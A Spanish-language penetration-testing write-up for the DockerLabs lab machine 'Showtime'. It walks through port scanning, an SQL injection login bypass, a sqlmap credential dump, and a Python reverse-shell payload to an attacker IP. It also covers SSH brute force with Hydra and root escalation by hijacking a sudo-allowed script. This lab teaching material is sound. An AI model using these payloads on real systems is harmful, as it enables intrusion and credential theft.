








# 🧠 Informe de Pentesting – Máquina: Showtime

### 💡 Dificultad: Fácil

### 🧩 Plataforma: DockerLabs


---

# ⚙️ Despliegue de la máquina

Antes de iniciar el proceso de reconocimiento y explotación, se procede a desplegar la máquina vulnerable proporcionada por DockerLabs.

La máquina se distribuye comprimida en formato `.zip`, conteniendo una imagen Docker y un script automatizado que facilita su ejecución.

```bash
unzip showtime.zip
sudo bash auto_deploy.sh showtime.tar
```

Una vez finalizado el despliegue, la máquina queda disponible dentro de la red local de Docker.


---

# 📡 Comprobación de conectividad

Antes de comenzar la fase de enumeración, es importante verificar que el objetivo se encuentre activo y responda correctamente dentro de la red.

```bash
ping -c1 172.17.0.2
```

### Explicación:

* **ping** → Herramienta utilizada para verificar conectividad mediante ICMP.
* **-c1** → Envía únicamente un paquete ICMP.

La recepción de respuesta confirma:

* Existencia del host objetivo
* Conectividad de red funcional
* Baja latencia, esperada al ejecutarse dentro de Docker


---

# 🔍 Fase de reconocimiento – Escaneo de puertos

La enumeración inicial comienza identificando los puertos expuestos por el sistema.

Se realiza un escaneo completo sobre todos los puertos TCP:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## Explicación detallada de parámetros:

* **-p-** → Escanea los 65535 puertos TCP.
* **--open** → Muestra únicamente puertos abiertos.
* **-sS** → Ejecuta un SYN Scan (Stealth Scan).
* **--min-rate 5000** → Fuerza una velocidad mínima de envío de paquetes.
* **-vvv** → Incrementa el nivel de verbosidad.
* **-n** → Evita la resolución DNS.
* **-Pn** → Omite la detección previa de hosts activos.

---

## 📌 Resultado obtenido

El escaneo revela los siguientes servicios expuestos:

* **22/tcp → SSH**
* **80/tcp → HTTP**

Esto indica que la superficie de ataque inicial se encuentra orientada principalmente hacia servicios web.

---

# Enumeración de servicios

Una vez identificados los puertos abiertos, se ejecuta un análisis más profundo para obtener información adicional sobre versiones y configuraciones:

```bash
nmap -sCV -p22,80 172.17.0.2
```

### Explicación:

* **-sC** → Ejecuta scripts NSE básicos.
* **-sV** → Detecta versiones de servicios.
* **-p22,80** → Analiza únicamente los puertos especificados.


---

# 🌐 Enumeración web

Al acceder al servicio HTTP mediante navegador:

```bash
http://172.17.0.2
```

Se observa una aplicación web con un formulario de autenticación.


---

# 🔎 Fuzzing de directorios

Se utiliza **Gobuster** con el objetivo de descubrir contenido oculto y posibles rutas interesantes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 10701
```

## Explicación de Gobuster

Gobuster es una herramienta utilizada para realizar fuerza bruta sobre aplicaciones web con el objetivo de descubrir:

* Directorios ocultos
* Archivos no indexados
* Backups expuestos
* Paneles administrativos

### Parámetros utilizados:

* **dir** → Modo de descubrimiento web.
* **-u** → URL objetivo.
* **-w** → Wordlist utilizada.
* **-x** → Extensiones adicionales a probar.
* **-b 403,404** → Ignora respuestas específicas.
* **--exclude-length** → Filtra falsos positivos por longitud.



## Resultado

No se identificó inicialmente un vector de ataque evidente. Sin embargo, durante la exploración se observó un formulario de autenticación accesible desde la página principal.

---

# 🔐 Pruebas de autenticación e inyección SQL

Inicialmente se probaron credenciales por defecto sin éxito.

Posteriormente se intentó una inyección SQL en el formulario de autenticación utilizando:

**Usuario:**

```bash
admin
```

**Contraseña:**

```bash
admin' OR '1'='1' -- -
```

La autenticación fue exitosa, confirmando la existencia de una vulnerabilidad de **SQL Injection**.



Con el objetivo de automatizar la explotación, se interceptó la petición utilizando Burp Suite, se envió al Repeater y posteriormente se almacenó en un archivo `.req`.

Dicha petición fue utilizada con SQLMap:

```bash
sqlmap -r peticiomdo.req --level=5 --risk=3 --dump
```





SQLMap permitió extraer múltiples credenciales almacenadas en la base de datos.

Las credenciales recuperadas fueron almacenadas en archivos de texto para posteriores pruebas con Hydra; sin embargo, inicialmente no produjeron resultados válidos sobre SSH.

Al probar manualmente las credenciales:

```text
joe : MiClaveEsInhackeable
```

Se obtuvo acceso a un panel distinto que permite ejecutar código Python.



---

# 🐍 Ejecución remota de código y obtención de shell

En el equipo atacante se inicia un listener:

```bash
sudo nc -lvnp 445
```

Posteriormente se ejecuta el siguiente payload Python:

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IPatacante,puertoatacante));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Esto proporciona una reverse shell interactiva.



Durante la enumeración local se identificó un archivo de texto dentro de `/tmp`.

El contenido fue transferido al equipo atacante y convertido a minúsculas:

```bash
tr 'A-Z' 'a-z' < passwordshell.txt > contrasenasminus.txt
```

Posteriormente se utilizó Hydra para realizar fuerza bruta contra SSH:

```bash
hydra -L usuarios.txt -P contrasenasminus.txt ssh://172.17.0.2
```

Se obtuvieron credenciales válidas para acceder mediante SSH.



---

# 🖥️ Tratamiento de TTY

Las shells obtenidas mediante web suelen ser inestables, por lo que se estabiliza la terminal.

```bash
script /dev/null -c bash
```

Suspender sesión:

```bash
Ctrl + Z
```

Desde la máquina atacante:

```bash
stty raw -echo; fg
```

Posteriormente:

```bash
reset xterm
```

Configurar variables:

```bash
export TERM=xterm
export BASH=bash
```

Esto permite:

* Uso correcto de Ctrl+C
* Autocompletado
* Mejor interacción con la shell
* Compatibilidad con programas interactivos

---

# ⬆️ Escalamiento de privilegios

## Fase 1: Enumeración inicial como usuario joe

Se listan los privilegios sudo disponibles:

```bash
sudo -l
```

La salida revela:

```text
(luciano) NOPASSWD: /bin/posh
```

Esto indica que el usuario **joe** puede ejecutar el intérprete `posh` como el usuario **luciano** sin necesidad de contraseña.

Posteriormente se enumeran los usuarios disponibles:

```bash
cd /home/
ls
```

Se identifican tres usuarios:

* joe
* luciano
* ubuntu

---

## Fase 2: Pivotaje hacia el usuario luciano

Se aprovecha la regla sudo identificada:

```bash
sudo -u luciano /bin/posh
```

Validamos el cambio:

```bash
whoami
```

Resultado:

```text
luciano
```

El pivotaje entre usuarios se realiza exitosamente.

---

## Fase 3: Nueva enumeración de privilegios

Se repite la auditoría sudo:

```bash
sudo -l
```

Se identifica la siguiente regla:

```text
(root) NOPASSWD: /bin/bash /home/luciano/script.sh
```

Esto significa que el usuario puede ejecutar dicho script con privilegios de **root**.

Se inspeccionan permisos:

```bash
ls -la /home/luciano/script.sh
```

La salida muestra:

```text
-rw-r--r--
```

El archivo pertenece a **luciano**, permitiendo su modificación.

---

## Fase 4: Secuestro del script y obtención de root

Se sobrescribe el contenido:

```bash
echo "/bin/bash -p" > /home/luciano/script.sh
```

El parámetro `-p` permite conservar privilegios efectivos.

Se ejecuta:

```bash
sudo /bin/bash /home/luciano/script.sh
```

Finalmente se valida:

```bash
whoami
```

Resultado:

```text
root
```

La escalada de privilegios se completa exitosamente mediante **script hijacking**.



---
